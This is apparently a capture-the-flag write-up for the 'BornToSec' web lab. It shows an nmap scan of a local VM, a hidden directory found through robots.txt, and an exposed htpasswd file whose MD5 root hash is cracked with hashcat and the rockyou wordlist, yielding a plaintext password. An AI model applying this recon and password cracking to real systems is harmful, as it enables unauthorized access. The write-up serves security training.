 nmap -v -A -T4 192.168.56.103

	We find 2 directories.
		PORT   STATE SERVICE VERSION
		80/tcp open  http    nginx 1.4.6 (Ubuntu)
		|_http-favicon: Unknown favicon MD5: E7D08792AE6EC9DBBF3CEBFB48EE4057
		| http-methods:
		|_  Supported Methods: GET HEAD POST
		| http-robots.txt: 2 disallowed entries
		|_/whatever /.hidden
		|_http-server-header: nginx/1.4.6 (Ubuntu)
		|_http-title: BornToSec - Web Section
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	In whatever there is a htpasswd file that contain:
	root:437394baff5aa33daa618be47b75cb49

	https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html
	https://defendtheweb.net/discussion/1159-bypassing-htaccesshtpasswd-based-authentication

	It looks like MD5, we can try to bruteforce it with hashcat and rockyou:
	hashcat -m 0 -a 0 hash /<PATH>/rockyou.txt --force
	We find:
	437394baff5aa33daa618be47b75cb49:qwerty123@
	We can't connect to this in login page but there is an admin connect page
